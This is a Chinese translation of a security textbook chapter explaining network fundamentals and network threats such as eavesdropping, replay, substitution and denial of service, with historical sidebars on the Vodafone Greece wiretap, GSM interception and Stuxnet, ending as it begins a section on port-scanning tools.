消息必须从您的计算机传输到您的路由器。连接到网络的每台计算机都有一个**网络接口卡 (`NIC`)**，具有唯一的物理地址，称为**`MAC` 地址**（介质访问控制）。在数据链路层，添加两个首部，一个用于您计算机的 `NIC` 地址（源 `MAC`），一个用于您路由器的 `NIC` 地址。包含目的 `MAC`、源 `MAC` 和数据的数据链路层结构称为**帧**。每个 `NIC` 在有数据要发送时将数据放到通信介质上，并从网络中获取以自己的地址为目的地址的那些帧。

***

**`MAC` 地址：连接计算机和网络的网络接口卡的唯一标识符**

***

在接收（目的）端，此过程按相反顺序执行：`NIC` 卡接收发给它的帧。接收方网络层检查分组是否真正寄给它。分组到达的顺序可能与发送顺序不同（由于网络延迟或网络中路径的差异），因此会话层可能必须对分组重新排序。表示层移除压缩并设置适合目标计算机的外观。最后，应用层将数据格式化并作为一个完整单元交付。

分层和协调工作量很大，每个协议层都执行自己的部分。但这值得付出努力，因为不同的层使得运行在以太网网络上的 `IBM PC` 上的 `Outlook` 能够与通过拨号连接在布拉格运行 `Eudora` 的 `Apple` 计算机用户进行通信。此外，分层分离有助于网络人员在出现故障时进行排查。

## 路由

我们仍未回答数据如何从源 `NIC` 到达目的地的问题。互联网有许多称为**路由器**的设备，其目的是重定向分组，试图使它们更接近目的地。路由协议很复杂，但基本上当路由器收到一个分组时，它使用一个表来确定到达目的地的最快路径，并将分组转发到该路径上的下一步。路由器与相邻路由器通信以更新连接状态和流量；通过这些更新，路由器持续更新其最佳下一步的表。

***

**路由器在通往目的地的路径上引导流量。**

***

## 端口

正如我们刚才所述，数据不会神奇地滑入计算机或自行执行；接收计算机上必须有某个活动程序接受数据并存储或处理它们。一些程序主动请求数据，如提示输入姓名和密码的框，但其他时候数据从网络到达，必须被导向将处理它们的程序。这种后一种情况的一个例子是传入电子邮件：新邮件可随时发送，因此计算机上运行的服务程序必须准备好接收电子邮件并将其传递给用户的电子邮件客户端，如 `Microsoft Outlook` 或 `Mozilla Thunderbird`。此类服务有时称为**守护进程**；例如，准备接收传入邮件的守护进程名为 `popd`，即支持邮局协议邮件接收功能的守护进程。

许多常见服务绑定到约定俗成的**端口**，端口本质上只是用于标识不同服务的数字；目的端口号包含在每个分组或数据单元的首部中。端口 0 到 4095 称为**知名端口**，按照惯例与特定服务相关联。例如，传入电子邮件通常使用邮局协议 (`POP`) 传输，`POP` 服务器通常绑定到端口 110。`POP` 服务器是一个接收并保存传入电子邮件、等待客户端请求已接收并排队的邮件的程序。客户端联系服务器，向端口 110 发送一个请求建立会话的分组；随着服务器的响应，客户端和服务器协商从服务器传输邮件。

***

**端口：与为网络服务提供服务或进行监控的应用程序相关联的编号**

***

本网络概述或回顾必然省略了重要细节。我们的目的仅在于确保您了解网络的一些基本术语和概念，以便我们能够探讨网络中的安全问题。

# 第一部分——网络之战：网络安全攻击

在本部分中，我们将介绍三类安全威胁和漏洞：首先，我们考虑网络环境下的机密性和完整性失效。在网络中，机密性丧失通常被称为窃听（即使不涉及物理线路），而完整性丧失则统称为数据破坏。尽管攻击手段可能是新的，但机密性或完整性的丧失应当很熟悉，因为在前几章中，我们已经探讨了程序、浏览器和操作系统中存在这些缺陷。

我们要解决的第二个威胁涉及无线网络。在这里，主要危害同样是用户数据的机密性或完整性。与共享的广域网不同，无线网络是用户拥有一定控制权的事物。在大型、集中管理的共享网络中，用户几乎无法控制可用的安全服务类型。相比之下，无线网络规模较小，可能没有主动的管理或监控，且共享网络的各方地理位置非常接近。因此，用户在安全方面扮演着更直接的角色。

本部分的第三个主题是我们探讨可用性，或其丧失，即一类被称为拒绝服务的攻击。由于连接性或访问权是网络计算的关键方面，任何严重限制网络使用的因素都会否定网络的全部目的。因此，能够拒绝为用户提供服务的攻击者会造成严重危害。拒绝服务攻击是本书中可用性（而非机密性或完整性）作为主要安全特性的首个实例。

在介绍这三类威胁时，我们也暗示了相应的控制措施和对策。然而，本章的第二部分才是深入介绍这些控制措施和对策的地方。

# 6.2 网络通信威胁


现在我们来看看网络中的安全威胁。根据第 1 章中对威胁的描述，您可能还记得四种潜在的危害类型：

*   `interception`（截获），或未经授权的查看
*   `modification`（修改），或未经授权的更改
*   `fabrication`（伪造），或未经授权的创建
*   `interruption`（中断），或阻止授权访问

这四种类型均适用于网络，尽管术语略有不同。`Interception` 有时称为窃听或窃听，`modification` 和 `fabrication` 通常统称为完整性失效，网络中的 `interruption` 即拒绝服务。接下来我们将探讨这些网络安全问题。我们还将讨论端口扫描：攻击前的侦察。

## 截获：窃听与窃听

安全分析师有时会使用安全边界的概念，即一条环绕受保护计算资源集合的虚拟线。您可以将安全边界想象为包含一个物理位置，例如家庭、学校、办公室或商店，如图 6-6 所示。当然，这些线并不真实存在，而且在许多网络使用场景中，您需要将访问权限扩展到受保护区域之外。但由于您失去了对区域外设备（电缆、网络设备、服务器）的控制，因此保护数据的能力受到限制。


**图 6-6** 安全边界

**窃听**是对数据截获的称呼，通常是隐蔽且未经授权的。正如侧边栏 6-3 所述，即使是仅供法院授权窃听使用的后门，也可能被滥用。窃听这个名字源于最初的机制，即一种连接在导线上的装置，它分离出第二条路径，数据除沿主路径传输外，还会沿此路径传输。当然，现在传输介质范围从铜线扩展到光纤和无线电信号，窃听方式也取决于介质。

用户通常很难控制信号的路由。例如，在电话系统中，从纽约到悉尼的通话可能向西经由卫星传输，转至海底电缆，最后通过常规导线到达目的地。在此过程中，信号可能经过不同国家，以及国际海域和领空。网络化的数字通信也是如此，它们使用了部分电话通信相同的资源。信号可能穿越敌对地区和竞争对手云集的区域。沿途可能存在拥有手段、机会和动机获取您数据的人员。因此，广域网可能比受良好控制的局域网风险大得多。

加密是防范截获最强且最常用的对策，虽然物理安全（保护通信线路本身）、专线和受控路由（确保通信仅沿特定路径传输）也发挥着各自的作用。我们将在本章后面探讨用于通信的加密技术。

### 是什么使网络容易受到截获攻击？

孤立的家庭用户或只有少数员工的独立办公室不太可能成为许多攻击的目标。但加入网络后，风险会急剧上升。请考虑网络与独立环境有何不同。

#### 匿名性

攻击者可以从数千英里外发起攻击，且永远不与系统、其管理员或用户直接接触。因此，潜在攻击者隐藏在电子屏障后相对安全。攻击可以经过许多其他主机传递，以伪装攻击来源。而且计算机间的认证与人类认证不同。正如侧边栏 6-4 所示，安全的分布式认证需要深思熟虑和注重细节。

***

##### 侧边栏 6-3 非预期的预期截获

电信提供商在合法截获方面与政府合作。每当法院授权对电话或数据通信进行窃听时，政府机构会与服务提供商合作安装窃听装置。现代电信硬件和软件包含实现这些窃听的特殊功能，随着技术发展而演进。甚至语音通信现在也常以数字化方式传输，使用类似于互联网数据网络的路由器和路由协议。

在 2010 年 2 月的黑帽安全会议上，IBM 安全研究员 Tom Cross 发表了一篇论文，披露了影响合法截获的思科路由器技术和程序问题。思科路由器存在一个 2008 年首次披露的安全缺陷：该缺陷可能允许未经认证的访问路由器。尽管已发布补丁，但并非所有电信网络的路由器都已更新。此外，Cross 指出思科设备不记录失败的登录尝试，也不通知管理员，使设备容易受到自动密码猜测攻击，且截获功能的使用未生成审计记录。

照此情况，根据 Cross 的说法[GRE10]，ISP 员工可能监控已安装的合法截获窃听并通知当事人他们正处于监视之下。同样，员工可能对任何客户建立未经授权的截获，而 ISP 将没有审计追踪来检测该截获。

Cross 指出，Cisco 是唯一一家将合法拦截功能的产品设计公开供审查的主要硬件供应商；随后他表示，由于其他公司未公开其设计，无法确定其产品是否安全。

此处提到的漏洞措辞较为谨慎：“could potentially...”和“could establish...” 这种措辞表明我们不知道 Cisco 设备是否已以这种方式被攻破。

然而，另一家电信服务商 Vodafone Greece 的设备*确实*遭到了类似攻击的破坏，涉及希腊高级官员的通信，正如 Vassilis Pervalakis 和 Diomidis Spinellis 所报告的 [PRE07]。Vodafone 使用的是爱立信（瑞典制造商）生产的设备。不难理解，爱立信希望制造一套可在多个市场销售的软硬件型号，因此在代码中包含了实现合法拦截的功能，但会为未购买该套餐的客户停用该代码。Vodafone 并未购买该附加组件。2003 年，爱立信升级了软件，却在交付给 Vodafone 的版本中意外激活了拦截代码。尽管代码已存在，但未出现在用户级界面上，因此 Vodafone 员工无法访问它，更不知情其存在。这种情况是 Chapter 3 中描述的后门的完美例证，并伴随我们当时提出的所有警示。在该章中，我们也反对通过隐匿实现安全——即指望只要不公开，就没人能发现。

未知攻击者在爱立信交换机软件中安装了一个补丁，激活了休眠的拦截代码。此外，攻击者的手法未生成审计日志，尽管拦截和复制通话通常会为执法记录创建审计条目。这种代码修改经过精心设计，旨在不被发现。

借助这段代码，未知的外部人员得以窃听约 100 名政治官员的所有移动电话通话，包括总理、其妻子及多位内阁部长。

该阴谋最终于 2004 年败露，当时爱立信分发了另一个软件补丁；由于与恶意软件交互，真实交换机软件中的一条错误消息未能成功送达，从而触发了警报。在调查警报源头时，爱立信工程师发现了该添加代码。

该事件的教训是：后门即便未公开文档，也可能被发现并利用。通过隐匿实现安全并非有效对策。

***

##### 侧边栏 6-4 分布式认证故障

认证在网络中必须谨慎且正确地处理，因为网络涉及的认证不仅是人，还包括仅与人松散关联的进程、服务器和服务。对于网络而言，出于性能和可靠性考虑，认证过程和数据库通常是分布式的。请考虑 Microsoft 于 2000 年在其 Windows 操作系统中实施的认证方案。在 Windows NT 4.0（首个支持大规模分布式计算的 Microsoft 系统）中，认证数据库分布在多个域控制器中。每个域控制器被指定为主控制器或备份控制器。对认证数据库的所有更改必须在（单一的）主域控制器上进行；更改随后从主控制器复制到备份域控制器。这种方法意味着更改在主控制器这一单一节点上得到一致控制和实施。当然，这个单一控制器也成了单点故障和域的潜在性能瓶颈。

在 Windows 2000 中，主/备份域控制器的概念被废弃。取而代之的是，网络将控制器视为森林中的平等树，任何域控制器均可更新认证数据库。这种方案反映了 Microsoft 的“多主”理念：同一时刻只能有一个控制器为主，但任何控制器都可成为主。一旦在主控制器上完成更改，它们会自动复制到森林中其余的域控制器。

这种方法比主/备方法更灵活、更健壮，因为它允许任何控制器接管——尤其是在一个或多个控制器故障或因故离线时尤为有用。但多主方法引入了一个新问题：因为任何域控制器都能发起对认证数据库的更改，任何能够控制单个域控制器的黑客都能篡改认证数据库。更糟的是，错误的更改会随后复制到整个森林。理论上，黑客能访问依赖 Windows 2000 进行认证的森林中任何资源。

当我们思考攻击者时，通常想到的是来自系统外部的威胁。但事实上，多主方法也可能诱惑内部人员。森林中任一域的域管理员均可访问该域内的域控制器。得益于多主机制，域管理员还能修改认证数据库以访问森林中的任何其他资源。

因此，系统管理员必须考虑如何在网络中定义域及其隔离。否则，他们可能会招致可怕但切实可能的场景。例如，假设某域管理员是个“害群之马”。她设法修改认证数据库，使自己成为整个森林的管理员。接着她便能访问森林中的任何数据，为某些用户开启服务，为其他用户关闭服务。这个例子强化了 Chapter 3 引入的安全原则：最小权限和权限分离的重要性。

***

#### 多个攻击点

简单计算系统是一个自包含单元。单机上的访问控制可保护该处理器上数据的机密性。然而，当文件存储在远离用户的网络主机上时，数据或文件本身可能需经过多个主机才能到达用户。某主机的管理员可能实施严格的安全策略，但该管理员无法控制网络中的其他主机。因此，用户必须依赖这些系统中的每一个的访问控制机制。攻击可从任何主机发起针对任何主机，因此大型网络提供了许多脆弱点。

#### 共享

因为网络支持资源和工作负载共享，联网系统比单机向更多用户开放了潜在访问。或许更糟的是，访问延伸至更多系统，因此单系统的访问控制在网络中可能显得不足。

#### 系统复杂性

在 Chapter 5 中我们看到，操作系统是一段复杂的软件。在大型操作系统上实现可靠安全极其困难，甚至不可能，尤其是那些非专门为安全设计的系统。网络融合了两个或多个可能截然不同的操作系统。因此，网络操作/控制系统很可能比单一计算系统的操作系统更复杂。此外，如今普通笔记本电脑的算力已超过过去二十年间许多办公计算机。

攻击者可以利用这种能力，让受害者的计算机执行攻击计算的一部分。由于普通计算机非常强大，大多数用户在任何时刻都不知道他们的计算机到底在做什么：当你玩《火星入侵者》时，后台有哪些进程处于活动状态？这种复杂性降低了对网络安全性的信心。

***

**大多数用户不知道其计算机后台运行的所有进程。**

***

#### 未知边界

网络的可扩展性也意味着网络边界的不确定性。一台主机可能是两个不同网络上的节点，因此一个网络上的资源也可被另一个网络的用户访问。虽然广泛的可访问性是一种优势，但这群可能恶意的、未知或不受控制的用户却是一个安全劣势。

当新主机可以被添加到网络时，会出现类似的问题。每个网络节点都必须能够应对新的、不可信主机的潜在存在。图 6-7 指出了定义网络边界的问题。例如，请注意，网络 D 中主机上的用户可能不知道来自网络 A 和 B 用户的潜在连接。而位于网络 A 和 B 中间的主机实际上属于 A、B、C 和 E。如果这些网络有不同的安全规则，该主机受哪些规则约束？


**图 6-7** 不明确的网络边界

#### 未知路径

图 6-8 说明从一台主机到另一台主机可能有多条路径。假设主机 `A1` 上的用户想向主机 `B3` 上的用户发送消息。该消息在到达主机 `B3` 之前，可能会通过主机 `C` 或 `D` 路由。主机 `C` 可能提供可接受的安全性，但 `D` 则不然。网络用户很少能控制其消息的路由。无法控制路由是移动电话信号拦截问题的一个因素，如侧边栏 6-5 所述。


**图 6-8** 多条路由路径

***

##### 侧边栏 6-5 你好，你能听到我吗？现在呢？

移动电话比我们有时想象的要复杂得多。使用固定电话时，你的电话与当地电话交换局基本上只有一根电缆相连，因此电话的大部分只是将音频语音转换为电子信号并再转换回来的电子设备。移动电话也要做这些，外加它们必须管理与移动网络的连接。与固定通信不同，随着移动电话的移动（有时甚至在静止时），设备会不断寻找不同的信号以建立连接。

在 2010 年内华达州拉斯维加斯举行的 Defcon 18 大会上，安全研究员 Chris Paget 演示了他自制的 GSM 基站，并诱使多达 30 位不知情的与会者用手机连接到他的系统。零件成本约为 1500 美元，他使用一台运行开源应用程序的普通笔记本电脑，该程序基本上将笔记本电脑变成了一个 GSM 基站。移动电话会尝试与能找到的最强信号关联；邻近性帮助他实现了这一目标。用户在移动电话建立或更改与提供商的关联时毫不知情。

美国有窃听电话通话的法律禁止，因此 Paget 小心地向与会者宣布了他的意图和活动。他还仔细清除了其系统处理的所有电话通话痕迹，以保护客户隐私。（然而，大多数攻击者不会如此严谨礼貌。）为了演示目的，他仅拦截了外拨电话，并向呼叫者播放了一条警告信息。

也许最有趣的是，他的系统强制连接的手机使用较旧的 2G 协议；Paget 还表示，他的系统在与移动电话协商能力时，可以强制手机不使用加密（这当然便于拦截）。

Paget 演示的目的是展示攻击者在移动网络中拦截通信有多容易。“主要问题是 GSM 已被攻破。你有 3G 以及所有这些后续协议，针对 GSM 的问题已为人所知几十年了。是时候我们继续前进了，”Paget 说 [HIG10]。

人们确实“继续前进”了……但不是 Paget 所指的方式。2010 年 12 月，在德国柏林举行的混沌计算机俱乐部大会上，两位研究人员演示了他们拦截 GSM 通话的能力。Karsten Nohl 和 Sylvain Munaut 使用廉价的摩托罗拉手机拦截进行中的通话。摩托罗拉手机包含易于替换的固件，将手机变成了一个拦截器，接收范围内的所有流量。从中他们可以隔离任何单个手机的通信。利用一个巨大的预建加密密钥表，他们确定了用于该通信流的特定密钥，并最终拦截了整个对话的明文。

***

因此，网络与独立的本地环境有显著不同。网络特性显著增加了安全风险。

### 修改、伪造：数据损坏

窃听当然是一个重大威胁，它是商业机密窃取或间谍活动重大事件的核心。但拦截是一种被动威胁：通信正常进行，只是隐藏的第三方也在偷听。

如果你还记得第 1 章，修改和伪造也是计算机安全关注的问题，它们也适用于网络。威胁在于通信在传输过程中被更改。有时该行为涉及在传输途中修改数据；其他时候则涉及制作新内容或重复现有通信。这三种攻击分别称为修改、插入和重放。此类攻击可能是恶意的，也可能是非恶意的，可能是诱导的，也可能是自然原因造成的。

人们经常收到不正确或损坏的数据：姓名的轻微拼写错误、明显的排版错误、列表上的错误条目。如果你观看电视实时字幕，有时会看到正常文本退化为乱码，然后在短时间后恢复正常。这样的错误会发生，如果问题严重我们会联系他人更正，否则就忽略。错误发生得太频繁，以至于我们有时甚至没有注意到它们。

在图 6-9 中，我们提醒你注意一些数据损坏的来源；我们之前已经描述了其中大多数原因。你应该记住，数据损坏可以是有意的或无意的，来自恶意或非恶意来源，可以是定向的或意外的。数据损坏可能发生在数据录入、存储、使用和计算、传输、输出和检索过程中。在本节中，我们关注作为网络交互一部分的损坏。


**图 6-9** 数据损坏来源

有时修改是显而易见的，很容易看出发生了更改（例如，完全删除，程序可检测到；或文本被二进制数据替换，人类读者会察觉）。其他时候更改很微妙，例如单个比特的变化，这可能允许处理继续进行，尽管可能产生不正确的结果。

#### 通信介质漏洞

众所周知，通信介质容易受到数据损坏的影响。天气和树木等简单因素都可能干扰清晰的传输。因此，通信协议包含检查和纠正传输中错误（至少部分错误）的功能。`TCP/IP` 协议套件（我们将在本章后面描述）用于大多数互联网数据通信。`TCP/IP` 拥有广泛的功能，可确保接收方获得完整、正确且有序的数据流，尽管传输过程中可能存在错误。

***

**网络数据损坏因传输介质的微小故障而自然发生。损坏也可能因恶意目的而被诱导。这两者都必须加以控制。**

***

在本节中，我们将描述通信所面临的一些修改故障。

##### 重排序

**重排序** 攻击或问题涉及对数据顺序的置换。最常见于网络通信中，当数据流的后一个片段比前一个片段先到达时，就会发生重排序错误：数据包 2 在数据包 1 之前到达。

重排序错误在网络流量中实际上非常常见。因为数据单元是根据可用的路由信息进行路由的，当发送数据包 1 时，最佳路径（即被选择的路径）经过节点 C。随后路由器得知节点 C 不再是最优的，因此当发送数据包 2 时，路由改为经过节点 D。第二条路径确实更优，以至于数据包 2 比数据包 1 先到达。拥塞、网络干扰、设备故障或失效以及性能问题都很容易导致这类速度差异。

`TCP` 套件等网络协议可确保流量的正确排序。然而，应用程序并不总能检测或纠正数据流内的重排序问题。例如，如果某应用程序处理购物网站上许多并发客户端的输入，该应用程序必须确保各个订单被正确构建，而不管订单片段的到达顺序如何。

##### 替换

**替换** 攻击是指用另一段数据流替换数据流中的一段。**非恶意替换** 可能发生在硬件或软件故障导致两个数据流纠缠在一起时，从而使一段流与另一段流交换。

在网络中，相邻电缆或多路复用并行通信可能发生替换错误；偶尔会发生称为串扰的干扰，导致数据流入相邻路径。与光纤相比，金属电缆更容易受到相邻电缆的串扰影响。如果多路复用通信中子信道间的隔离不足，就会发生串扰。这种由硬件引起的替换并不常见。

恶意攻击者可以通过将一段通信拼接到另一段通信中来实施替换攻击。因此，Amy 可能获得两份通信副本，一份是向 Amy 转账 100 美元，另一份是向 Bill 转账 100,000 美元，Amy 可以交换这两个金额或两个目的地。这种替换攻击在格式化通信中最容易实施。例如，如果 Amy 知道字节 24-31 代表账户号码，她就知道如何构造一条将资金重定向到自己账户的新消息。

针对替换攻击的显而易见的对策是加密，包括加密整条消息（使攻击者难以看出要替换哪个部分）或创建完整性检查（使修改更加明显）。在 第 12 章 中，我们将描述链接技术，这是一种将消息的每个片段加密的过程，使得结果取决于所有前面的片段。链接技术可防止提取一个加密片段（如账户号码）并用另一个片段替换它。

并非所有替换攻击都是恶意的，正如 侧边栏 6-6 所述示例所示。

***

###### 侧边栏 6-6 替换捐赠者

英国国家医疗服务体系（`NHS`）维护着英国潜在器官捐赠者的数据库。据 *The Register* 2010 年 4 月 12 日的一篇文章报道，对于在申请驾照时登记器官捐赠意愿的人，器官捐赠者状态字段被错误录入。`NHS` 纠正了约 400,000 个数据字段，并不得不联系另外 300,000 人以确定正确值。


根据后续审查 [[DUF10]](#bib01.html#bib_168)，该错误产生于 1999 年，并从那时起一直未被发现，直到 2010 年。`NHS` 从三个来源接收数据：医院、医生和驾照办公室。申请驾照或在医生或医院登记时，申请人可以勾选方框，指定死后捐赠哪些器官（如果有）。从任何来源传输给 `NHS` 的记录包含身份数据和一个七位数字，编码为 1 表示否，2 表示是。然而，驾照申请表上列出的器官顺序与其他两个来源使用的顺序不同，这在 1999 年之前已由软件妥善处理。在 1999 年的一次软件升级中，所有输入均被错误地按相同顺序处理。

发现错误后的审查建议加强测试程序、在实施编程变更时通知所有受影响方，以及定期审计系统，包括样本记录验证。

***

#### 插入

**插入** 攻击几乎是一种替换形式，指将数据值插入数据流中。攻击者甚至不需要破解加密方案即可插入看似真实的数据；只要攻击者确切知道在何处插入数据，新片段就会在与通信其余部分相同的密钥下被加密。

##### 重放

在 **重放** 攻击中，合法数据被拦截并重复使用，通常不进行修改。重放攻击不同于窃听攻击（获取数据内容但不重用）和中间人攻击（修改内容以欺骗双方认为他们在直接通信）。

在现实生活中，银行通过在纸质支票上做标记来防止某人两次存入同一张支票，但对于电子存款（存款人用智能手机拍摄支票照片），防止重用则更加困难。重放攻击的经典案例涉及金融交易，具体方式如下。一名不道德的商家代表用户处理信用卡或资金转账，随后看到转账成功，又代表用户重新提交另一笔交易。

通过重放攻击，拦截者无需知道传输的内容或格式；事实上，重放攻击无需改变或破解加密即可在加密数据上成功。假设商家拥有一个内置加密的信用卡终端，用户的卡号、可能的 `PIN` 码、交易金额和商家标识被绑定成单条消息、加密并传输给信用卡处理中心。即使不破解加密，窃听通信线路的商家也可以重复同一交易消息，进行第二笔相同金额的转账。当然，向同一商家发起的两笔相同交易会被注意到，客户自然会提出争议，且重复单笔信用卡购买的净收益相对较小。尽管如此，交易可能被重复这一事实本身就是一种漏洞。

重放攻击也可用于认证凭证。在明文中传输身份和密码显然是一个弱点，但如图 6-10 所示，在明文中传输身份但使用加密密码同样薄弱。如果攻击者能将加密密码插入通信线路，则攻击者可以在不知道密码的情况下冒充合法用户。


**图 6-10** 加密密码失效

一个类似的例子涉及用于认证的 Cookie。在浏览器中运行的电子邮件程序（如 Gmail、Yahoo Mail 和 Hotmail）有时使用 Cookie 进行标识和认证，这样用户就无需反复输入标识符和密码来打开电子邮件。如果攻击者能拦截发送给（或提取存储在）受害者浏览器中的 Cookie，则返回同一个 Cookie 可让攻击者以受害者的身份打开电子邮件会话。登录和密码交换可以安全加密，Cookie 的内容也可以加密。要使此攻击成功，远程电子邮件服务只需接受其自身 Cookie 的副本作为有效的登录凭证即可。

重放攻击可通过序列号来应对。发送者为每条通信分配一个序列号，该序列号可以是针对单个接收者唯一的（发给 James 的消息 1、消息 2……），也可以是针对所有消息的一个编号序列（消息 1、消息 2、消息 3，其中 1 发给 James，2 发给 Klara，3 发给 Lars）。每个接收者记录最后收到的消息编号，并检查每条传入消息，确保其编号大于上一条收到的消息编号。

###### 物理重放

最后，举一个物理示例，设想监控某个空间的安全摄像头，例如银行金库的大门。远程控制室的警卫观看视频监视器以检测对大门的未授权访问。攻击者可向监视器输入一幅无害图像。警卫只能看到这幅无害图像，在此期间攻击者便拥有了对银行金库的无监控访问权限。这一计谋出现在电影《十一罗汉》中。类似的攻击可用于生物识别认证（例如第 2 章中描述的橡胶指纹攻击）。另一种类似的攻击是将摄像头对准受监控房间的照片，然后在小偷在金库中不被察觉地移动时重放图像。

正如这些示例所示，重放攻击可绕过常规的标识、认证和机密性防御，从而允许攻击者以受害者的名义发起并进行交互。序列号有助于抵御重放攻击。

###### 一般修改攻击

所有这些攻击都涉及完整性的某个方面。请记住完整性这一通用概念所涵盖的属性范围；我们从第 1 章重述它们以供参考：

- 精确
- 准确
- 未修改
- 仅以可接受的方式修改
- 仅由授权人员修改
- 仅由授权进程修改
- 一致
- 内部一致
- 有意义且可用

保护这些不同的属性需要不同的对策，包括工具、协议和密码学。在前几章中我们介绍了其中一些方法，现在我们将在早期方法的基础上进行构建。

#### 中断：服务丧失

我们要考虑的最后一类网络攻击涉及可用性，即 CIA 三要素的第三个支柱。我们都熟悉失去重要服务访问权限的挫败感，就像停电或电话线路中断时一样。当我们焦急地等待维修人员时，突然会注意到我们依赖该服务的所有方式。

网络，尤其是互联网，提供了可靠的服务保障。从互联网最早的设计开始，冗余和容错就是重要特征，这种鲁棒性一直保留至今。部分原因归功于互联网的网状架构。所谓的“最后一英里”，即主机与更大网络基础设施之间的最终连接，是一条唯一路径，因此那里的任何故障都会隔离主机。但一旦进入网络，路由器就有多条路径，因此如果一条不可用，可以使用另一条。

***

**网络设计采用冗余来应对硬件故障。**

***

与我们刚才讨论的其他漏洞一样，服务丧失可能是恶意的或非恶意的、故意的或意外的。然而，与机密性和完整性故障不同，拒绝服务并非二元的：是的，你要么有服务，要么没有，但一个关键问题是有多少？服务容量可能会降低。0.1%、1% 或 10% 的服务降级是灾难性的吗？答案取决于相关网络、其流量负载及其数据的关键性。因此，我们不仅要考虑服务是否存在，还要考虑现有服务量是否足够。

##### 路由

正如我们刚才描述的，互联网路由协议很复杂。路由器必须相互信任，以获取互联网其他部分可访问性的状态更新。一条错误信息就可能污染许多路由器的数据池，从而破坏许多路径的流量。尽管互联网路由协议具有自愈能力，即它们通过在发现不准确性时重新校准来从错误数据中恢复，但系统冲刷错误影响仍需一些时间。

***

**路由支持高效的资源利用和服务质量。如果被滥用，可能导致拒绝服务。**

***

尽管不常见且高度复杂，但针对路由系统的攻击是可能的。本章稍后我们将描述一些相对简单的攻击。

###### 过度需求

虽然梅·韦斯特据说说过“太多的好事也可以是美好的”，但这种情绪几乎不适用于网络。网络容量巨大但有限，任何特定链路或组件的容量要小得多。因此，攻击者可通过极端需求淹没网络的关键部分，从 Web 页面服务器到路由器或通信线路。

被淹没组件的响应方式各异。有些组件完全关闭，有些向所有请求提供降级（较慢）服务，还有一些为试图为部分用户保留服务而丢弃某些活动。

恶意拒绝服务攻击通常通过过度需求实施。目标是使受害者的容量过载，或降低其为其他合法请求者服务的能力。

***

**拒绝服务攻击通常试图用过度需求淹没受害者。**

***

##### 组件故障

作为硬件设备，组件会发生故障；这些故障往往是零星的、个别的、不可预测的且非恶意的。正如我们所说，互联网足够健壮，可以绕过大多数组件的故障。而且攻击者通常无法导致组件故障，因此这些问题很少是恶意攻击的结果。（有关似乎是诱发的硬件故障的描述，请参见侧边栏 6-7。）尽管如此，安全工程师仍需时刻注意设备故障可能造成的系统危害。

接下来我们将介绍攻击者用来确定如何发动攻击的一种技术。就像窃贼踩点寻找社区漏洞一样，意图危害特定受害者的成功攻击者通常会花费时间调查受害者的漏洞和防御，并策划适当的攻击。这种调查本身不是攻击，而是有助于攻击者的方法和机会。

***

侧边栏 6-7 Stuxnet 可能诱发了硬件故障

###### Stuxnet 病毒攻击伊朗核设施

2010 年 6 月，伊朗的核浓缩设施遭到了复杂且精密的计算机病毒 Stuxnet 的袭击（在第 3 章中提及，在第 13 章中讨论）。Stuxnet 以工业控制系统为目标，通过修改可编程逻辑控制器（`PLCs`）上的代码，使其按攻击者预期的方式工作，并对设备操作员隐藏这些更改。Stuxnet 攻击的系统是使用西门子 Simatic 控制器的系统，显然位于布什尔或纳坦兹的核电站。Stuxnet 以用于控制设备（如电机）转速的特定电源为目标。该恶意软件修改了从西门子 SCADA 软件发送到驱动器的命令，导致控制器改变设备的转速，使其间歇性地变速。

Stuxnet 以高速运行的特定驱动器为目标。这种高速仅用于特定应用，其中之一是铀浓缩。根据赛门铁克的 Eric Chien 称：“Stuxnet 在短时间内将输出功率频率改为 1410Hz，然后改为 2Hz，再改为 1064Hz。” [FAL10] 电机的正常频率为 1064 Hz；以 1400 Hz 的速度运行可能会损坏设备。这种剧烈的频率振荡导致电机加速、减速，然后再加速。浓缩铀需要离心机以精确的速度长时间旋转；改变速度会显著降低浓缩产品的质量。

确实，一些外部专家认为，在 2009 年至 2010 年 Stuxnet 活动高峰期，伊朗浓缩计划中约 8000 台离心机中多达 1000 台发生故障。伊朗自行制造离心机，众所周知它们经常发生故障，尽管可能没有达到 8000 台中 1000 台那么多。该病毒也可能旨在让维护工程师和设计师忙于更换故障硬件并想办法维持整个系统运行。Stuxnet 可能导致了这种故障率，这或许是恶意攻击导致硬件故障的首个案例。

---

##### 端口扫描

扫描是一种检查活动，因此它本身不会造成危害（如果你不认为了解对手是一种危害）。然而，扫描通常被用作攻击的第一步，即探测，以确定哪些进一步的攻击可能会成功。因此，我们接下来介绍针对子网架构和暴露面进行探测的主题。

不同版本软件产品中的漏洞是众所周知的：供应商会发布缺陷列表以及防护或纠正措施（补丁和变通方法），安全专业人员也维护和分发类似的列表，以及用于测试漏洞的工具。黑客流传攻击代码和脚本的副本。攻击者面临的问题是知道对哪些机器发起哪些攻击：针对特定版本 Adobe Reader 的攻击，如果目标机器不运行 Reader 或运行的版本不包含该特定漏洞，则不会奏效。向非易受攻击的机器发送攻击至少是耗时的，但更糟的是，甚至可能使攻击者暴露或变得可识别。攻击者只想将箭射向可能的目标。

收集网络信息的一个简单方法是使用**端口扫描器**，这是一种程序，针对特定的互联网（`IP`）地址，报告哪些端口响应查询，以及存在哪些已知漏洞。Dan Farmer 和 Wietse Venema [FAR90, FAR95] 是最早使用 COPS 和 SATAN 工具描述该技术的人之一。此后，NESSUS 和 Nmap 等工具扩展了网络探测的概念。

---

**端口扫描可绘制网络段的拓扑结构以及硬件和软件组件。**

---

端口扫描很像医生的常规体检，特别是用于确定病史的初步询问。问题和答案本身可能看起来不重要，但它们指向了建议进一步调查的领域。

###### 端口扫描工具

端口扫描工具随处可得，不仅限于地下社区。最初由 Fyodor 编写、可在 [www.insecure.org/nmap](http://www.insecure.org/nmap) 下载的 Nmap 扫描器是一个任何人都可以下载的有用工具。给定一个地址，Nmap 将报告所有开放端口、每个端口支持的服务，以及提供该服务的守护进程的所有者（用户 ID）。（所有者很重要，因为它暗示了攻破该服务的人将获得什么权限。管理员倾向于用 `admin` 或 `system` 之类的名称命名特权账户。）

另一个现成的扫描器是 netcat，由 Hobbit 编写，位于 [www.l0pht.com/users/l0pht](http://www.l0pht.com/users/l0pht)。商业产品稍贵一些，但并非高不可攀。知名的商业扫描器有 Nessus（Nessus Corp. [AND03]）、CyberCop Scanner（Network Associates）、Secure Scanner（Cisco）和 Internet Scanner（Internet Security Systems）。

###### 端口扫描结果

